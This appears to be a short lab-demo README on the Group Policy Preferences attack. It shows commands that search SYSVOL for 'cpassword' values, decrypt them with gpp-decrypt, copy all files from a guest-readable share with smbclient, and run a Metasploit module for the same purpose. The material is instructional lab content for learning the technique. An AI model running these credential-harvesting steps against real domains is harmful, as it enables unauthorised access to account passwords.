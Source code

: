 # GPP Attack LAB DEMO

### SCENARIO 1: 

In the first scenario, if we have a valid domain shell we can use it to search through the system and find the SYSVOL folder and access GROUPS.xml

```bash
findstr /S /I cpassword \\DOMAIN\sysvol\DOMAIN\policies\*.xml
```
Once we get the encrypted password, we can decrypt it using an inbuilt KALI tool called `gpp_decrypt`

```bash
gpp-decrypt "ENCRYPTED PASSWORD"
```

### SCENARIO 3:

If we don't have a domain user shell. Check if we are allowed to connect to any share as guest then we can find the `cpassword` value from the files on `SYSVOL` and pass them to the `gpp-decrypt`

```
smbclient \\\\TARGET IP\\SHARE

mget *
```

We can access a open share using `smbclient` and then download all the files to the the local machine using `mget *`. Then find the `cPassword` and decrypt it. 

We can also use Metasploit modules to automatically find and get the cleartext password.

```
use auxiliary/scanner/smb/smb_enum_gpp
set RHOSTS <TARGET IP>
set SMBDomain <TARGET DOMAIN>
set SMBUser <USERNAME>
set SMBPass <PASSWORD>
exploit
```

